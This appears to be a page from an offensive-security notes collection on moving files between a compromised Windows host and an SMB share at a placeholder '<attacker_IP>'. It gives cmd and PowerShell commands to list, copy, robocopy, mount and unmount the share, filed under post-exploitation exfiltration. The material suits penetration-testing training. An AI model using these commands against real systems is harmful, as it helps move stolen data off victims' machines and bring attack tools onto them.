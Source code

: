 # Client
## 01 - Command Prompt

List the files to check if the share is accessible.

```
C:\> dir \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xH - Operating System/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

You can mount the share remotely.

> [!INFO] Error Message
> The message is self-explanatory. Just specify username and password on the server side and it'll work just fine.
> 
> ```
> System error 1272 has occurred.
> 
> You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
> ```

```
C:\> net.exe use \\<attacker_IP>\<share_name> [/user:<username> <password>] [/persistent:yes]

C:\> net.exe use <drive_letter>: \\<attacker_IP>\<share_name> [/user:<username> <password>] [/persistent:yes]
```

To unmount the share network.

```
C:\> net.exe use /delete \\<attacker_IP>\<share_name>

C:\> net.exe use <drive_letter>: /delete
```

## 02 - PowerShell

List the files to check if the share is accessible.

```
PS C:\> Get-ChildItem \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
PS C:\> Copy-Item \\<attacker_IP>\<share_name>\<source> <destination>
```

You can mount the share remotely. Pass the credentials if required.

```powershell
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)

New-PSDrive -Name <drive_letter> -PSProvider FileSystem -Root "\\<attacker_IP>\<share_name>" [-Credential $credential]
```

To unmount the share network.

```
PS C:\> Remove-PSDrive -Name <drive_letter>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/SMB]]

### Chris Titus

- [Chris Titus: Robocopy](https://www.christitus.com/robocopy)